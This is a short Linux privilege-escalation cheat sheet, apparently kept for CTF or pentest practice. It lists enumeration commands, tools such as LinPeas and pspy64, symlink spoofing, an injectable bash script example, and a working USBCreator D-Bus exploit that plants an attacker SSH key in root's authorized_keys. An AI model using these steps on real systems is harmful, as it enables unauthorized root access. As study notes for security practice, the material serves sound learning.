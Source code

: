 # Linux
Everything to check when trying to become root


# Commands
- `sudo -l`
- `ps aux | grep <user>`
- `netstat -tulnp`
- `ls - ltrh` --> sort files by latest update (the one that is close to u by date, could be important)
- `kill -9 <pid>`


# Directories
- ~/
- ~/.ssh
- /tmp
- /dev/shm
- /opt
- /var *and all within*
- /usr
- /usr/local


# Tools
- LinPeas
- pspy64
- [GTFOBins](https://gtfobins.github.io/) (online)


# DIR / file copy (symlink)
If there's a DIR or a file that is being copied one can either create a symlink or a direct spoof of the actual file so that the copied item will be spoofed and have the data the attacker wants.


# Bash file command execute
If a file executes any variable, one might be able to write payload to it.

## Example
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
Note: Here one can insert malicious code to be executed by the program.


# Processes / Buses

## Monitor buses
`busctl` can be used to monitor and examine the D-Bus.

## Vulnerable interfaces

### USBCreator D-Bus | com.ubuntu.USBCreator
#### Steps to exploit
```bash

remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```
Help: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)